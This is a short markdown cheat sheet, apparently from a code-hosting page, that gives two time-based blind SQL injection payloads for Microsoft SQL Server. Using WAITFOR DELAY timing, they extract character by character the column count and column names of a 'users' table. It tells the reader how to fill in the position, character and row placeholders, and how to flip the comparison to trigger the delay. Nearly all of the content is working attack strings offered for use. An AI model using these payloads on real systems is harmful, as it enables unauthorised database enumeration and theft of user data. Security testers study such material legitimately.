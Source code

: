 ## Purpose: Retrieving columns for a table named users in the current database (counting how many rows total)

**Payload**: 
- $p is the position counter, starting from 1
- $c is the character (ascii value)

> To test, please replace $p with 1 (position 1 from the string returned from query) and $c with a ascii value


`' ;  IF ASCII(SUBSTRING(CAST((select count(column_name) from information_schema.columns where table_name = 'users') AS varchar),$p,1)) = $c waitfor delay '0:0:5' --`

## Purpose: Retrieving columns for a table named users in the current database, query data for all rows

**Payload**:
- $p is the position counter, starting from 1
- $c is the character (ascii value)
- $r is the row position counter, starting from 1

> To test, please replace $p with 1 (position 1 from the string returned from query) and $c with a ascii value, and $r with 1 (first row), I usually switch the = to > or < to easily trigger the sleep

`' ;  IF ASCII(substring((select top 1 column_name from (select top $r column_name from information_schema.columns where table_name = 'users' order by column_name) z order by column_name desc),$p,1)) = $c waitfor delay '0:0:5' --`
